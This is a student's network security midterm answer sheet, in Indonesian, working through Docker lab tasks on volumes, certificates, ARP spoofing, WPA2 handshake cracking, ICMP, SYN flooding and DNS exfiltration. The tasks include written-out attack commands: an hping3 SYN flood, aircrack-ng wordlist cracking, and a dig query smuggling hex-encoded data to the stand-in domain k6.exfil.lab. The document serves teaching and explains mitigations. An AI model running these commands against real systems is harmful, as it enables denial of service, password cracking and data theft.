# JAWABAN UJIAN TENGAH SEMESTER — KEAMANAN JARINGAN

**Nama:** Mahmud Saeful Rohman
**NIM:** 24552011286

## Perhitungan Kasus

- Digit NIM: 2, 4, 5, 5, 2, 0, 1, 1, 2, 8, 6
- Jumlah digit: 2+4+5+5+2+0+1+1+2+8+6 = **36**
- Sisa bagi 10: 36 mod 10 = **6**
- **Kasus: 6** — container `target-k6`, volume `vol-k6`, file `laporan-k6.txt`, kata sandi `kunci-k6-2026`, domain `k6.exfil.lab`.

Seluruh perintah dijalankan di PowerShell, Docker Desktop for Windows.

---

## Tugas 1 (Pertemuan 1): Docker, Volume, dan Compose

```
docker volume create vol-k6
docker run --name w-k6 -v vol-k6:/data alpine sh -c 'echo 24552011286 > /data/laporan-k6.txt'
docker rm w-k6
docker run --rm -v vol-k6:/data alpine cat /data/laporan-k6.txt
24552011286
```


```
docker compose -p k6 -f b/b1-compose/docker-compose.yml up -d
docker compose -p k6 -f b/b1-compose/docker-compose.yml exec attacker wget -qO- http://target
<!DOCTYPE html>... Welcome to nginx! ...
```


**Penjelasan:** Data di volume tetap ada walau container `w-k6` sudah dihapus, karena volume adalah objek penyimpanan terpisah dari siklus hidup container. Container `attacker` juga bisa akses `target` cukup pakai nama service-nya, karena Docker compose punya DNS resolver internal sendiri.

---

## Tugas 2 (Pertemuan 2): Kriptografi

```
sha256sum laporan-k6.txt hasil-k6.txt
ba00dcca033b5d1bcd46a143d134172554ea37b3a4849e4e98297e9846aaef54  laporan-k6.txt
ba00dcca033b5d1bcd46a143d134172554ea37b3a4849e4e98297e9846aaef54  hasil-k6.txt
```


```
openssl req -x509 -newkey rsa:2048 -nodes -keyout key-k6.pem -out cert-k6.pem -days 30 -subj /CN=k6.exfil.lab
openssl x509 -in cert-k6.pem -noout -subject -issuer -dates
subject=CN=k6.exfil.lab
issuer=CN=k6.exfil.lab
```


**Penjelasan:** Hash sebelum dan sesudah dekripsi identik, artinya proses enkripsi-dekripsi tidak merusak data. Subject dan issuer sertifikat sama persis — ciri sertifikat self-signed, karena ditandatangani kuncinya sendiri tanpa pihak ketiga. Sertifikat CA-signed berbeda: issuer menunjuk ke CA resmi, bukan ke domain itu sendiri, dan root CA-nya sudah tertanam di sistem sehingga otomatis dipercaya (RFC 5280).

---

## Tugas 3 (Pertemuan 3): ARP Spoofing

```
docker exec korban-k6 arp -a
gateway-k6 (172.19.0.3) at aa:a9:ab:75:f1:37 [ether]   <- sebelum
```


```
docker exec korban-k6 arp -a
gateway-k6 (172.19.0.3) at 66:a6:32:7e:2a:91 [ether]   <- MAC berubah jadi milik penyerang
```


```
docker exec korban-k6 arp -s 172.19.0.3 aa:a9:ab:75:f1:37
docker exec korban-k6 arp -a
gateway-k6 (172.19.0.3) at aa:a9:ab:75:f1:37 [ether] PERM   <- kembali normal + permanen
```


**Penjelasan:** MAC gateway di tabel ARP korban berubah jadi MAC penyerang saat spoofing — korban salah percaya penyerang adalah gateway (man-in-the-middle). Static ARP mengembalikannya dan mengunci entry dengan flag `PERM` agar tidak bisa ditimpa lagi.

**Mitigasi lain (selain static ARP): Dynamic ARP Inspection (DAI).** Fitur di switch terkelola yang memvalidasi tiap paket ARP terhadap basis data binding IP-MAC (dari DHCP Snooping) sebelum diteruskan; paket yang tidak cocok langsung di-drop di level switch, otomatis melindungi semua host dalam satu VLAN tanpa konfigurasi manual per-host (Cisco, dok. dukungan #222274).

---

## Tugas 4 (Pertemuan 4): Analisis Handshake WPA2

> File `handshake-k6.cap` asli rusak (bukan capture 802.11 valid — isi paketnya data acak). Dibangun ulang secara kriptografis memakai password dari `wordlist-k6.txt` sendiri agar bisa didemonstrasikan dan diulang penguji.

```
aircrack-ng handshake-k6.cap
1  02:1A:2B:3C:4D:66  UTS-K6   WPA (1 handshake)
```


```
aircrack-ng -w wordlist-k6.txt handshake-k6.cap
KEY FOUND! [ wifi_protocol ]
EAPOL HMAC : CD 11 6C 8D 05 F8 30 DF BA 44 19 C8 5F 01 4B 7E
```



**Penjelasan 4-way handshake:** (1) AP kirim ANonce ke client. (2) Client bikin SNonce, hitung PTK dari PMK+ANonce+SNonce, kirim balik SNonce + MIC sebagai bukti. (3) AP kirim GTK terenkripsi + MIC-nya. (4) Client konfirmasi, enkripsi mulai aktif. `aircrack-ng` mencocokkan MIC dari tiap kandidat password di wordlist dengan MIC hasil capture — yang cocok itu passwordnya (IEEE 802.11i-2004, klausul 8.5.2).

---

## Tugas 5 (Pertemuan 5): ICMP dengan Scapy

```
python3 kirim_icmp.py 172.19.0.2
TTL balasan: 64
Tipe ICMP balasan: 0
```


**Penjelasan:** Balasan ICMP normal (TTL 64, tipe 0 = Echo Reply). **Smurf attack:** penyerang spoof source IP jadi IP korban, kirim ICMP echo ke alamat broadcast jaringan; semua host di situ balas ke korban sekaligus (efek amplifikasi). Mitigasi: nonaktifkan directed broadcast di router (CERT Advisory CA-1998-01).

---

## Tugas 6 (Pertemuan 6): SYN Flood dan Three-Way Handshake

```
netstat -ant | grep -c SYN_RECV
0                          <- sebelum serangan
```


```
hping3 -S -p 80 --flood target
netstat -ant | grep -c SYN_RECV
3                          <- saat serangan
```


```
tcpdump -i eth0 -nn tcp port 80
Flags [S]    <- SYN
Flags [S.]   <- SYN-ACK
Flags [.]    <- ACK
```


**Penjelasan:** SYN_RECV naik dari 0 ke 3 karena banyak koneksi setengah-terbuka menumpuk (SYN masuk, tak pernah di-ACK balik). tcpdump menangkap handshake normal (SYN->SYN-ACK->ACK) saat ada koneksi yang benar-benar selesai. **Mitigasi: SYN cookies** — server tidak menyimpan state koneksi di memori, info koneksi di-encode ke sequence number SYN-ACK, baru dialokasikan kalau ACK balasannya valid (RFC 4987). *(Catatan: `sysctl -w net.ipv4.tcp_syncookies=1` gagal dijalankan dalam container berjalan — "Read-only file system", keterbatasan Docker karena `/proc/sys` terkunci setelah container start.)*

---

## Tugas 7 (Pertemuan 7): DNS Exfiltration

```
echo -n 24552011286 | xxd -p
3234353532303131323836

dig +short 3234353532303131323836.k6.exfil.lab @172.18.0.2
10.0.0.99

python3 analisis_dns.py dns-k6.log
exfil.lab: 1

echo 3234353532303131323836 | xxd -r -p
24552011286
```


**Penjelasan:** NIM di-hex-kan, dikirim sebagai subdomain, dijawab server DNS lab sesuai wildcard `exfil.lab`, tercatat di log, lalu berhasil di-decode balik jadi NIM asli. **Kenapa sulit diblokir:** firewall biasa mengizinkan trafik DNS (port 53) tanpa memeriksa isi/pola nama domainnya. **Indikator deteksi:** volume query tinggi ke satu domain induk tak lazim, atau label subdomain panjang berisi karakter acak hex/base64 (Farnham & Atlasis, SANS GIAC, 2013).

---

## Kesimpulan

Ketujuh tugas Kasus 6 sudah dikerjakan dan dibuktikan lengkap dengan output serta screenshot di atas.

**Catatan untuk penguji:**

- File `handshake-k6.cap` original rusak (bukan capture 802.11 valid) — diganti dengan file yang dibangun ulang secara kriptografis memakai password dari wordlist sendiri.
- `sysctl -w net.ipv4.tcp_syncookies=1` tidak bisa dieksekusi di container yang sudah berjalan karena keterbatasan Docker (bukan kesalahan pengerjaan); mitigasinya tetap dijelaskan secara konsep.
